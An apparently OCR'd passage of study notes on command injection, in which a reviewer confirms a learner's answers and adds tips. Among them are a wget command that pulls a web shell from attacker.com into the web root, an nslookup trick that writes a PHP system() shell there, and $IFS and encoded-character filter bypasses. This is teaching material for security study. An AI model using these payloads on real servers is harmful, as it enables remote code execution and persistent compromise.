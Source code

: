 > *Use wget to fetch a web shell and store it on the web root.*

Perfect summary. You're essentially turning a **simple download feature** into a **code upload**:

```bash
wget http://attacker.com/shell.php -O /var/www/html/shell.php
```

🌐 Then visit:

```
http://target.com/shell.php?cmd=id
```

🔥 Bonus: If you can’t control where the file lands, **search the filesystem** using:

```bash
find / -name shell.php 2>/dev/null
```

---

### ✅ 3. `$IFS` to Bypass Space Filtering

> *It's used when space is blocked; \$IFS mimics whitespace.*

Yes — it’s one of the best **WAF bypass tricks**.

🔥 Bonus: `$IFS` works **only on Unix-like systems**, so if you’re attacking Windows, this bypass won’t help. In that case, try:

* `%09` (tab)
* `%0b`, `%0c` (form feeds)
* Using `powershell` with Base64-encoded payloads

---

### ✅ 4. Leveraging `nslookup` Output for RCE

> *Write script tags in domain input, save error output to web root, visit file to execute.*

You got it — **script injection via command error message.**

Here’s the anatomy of the attack:

```bash
nslookup "<?php system($_GET['cmd']); ?>" > /var/www/html/shell.php
```

This creates a file like:

```php
** server can't find <?php system($_GET['cmd']); ?>: NXDOMAIN
```

When this file is accessed via web, PHP executes only what's inside `<?php ?>`, and ignores the rest.

---

### ✅ 5. Command Injection Without Shell Metacharacters
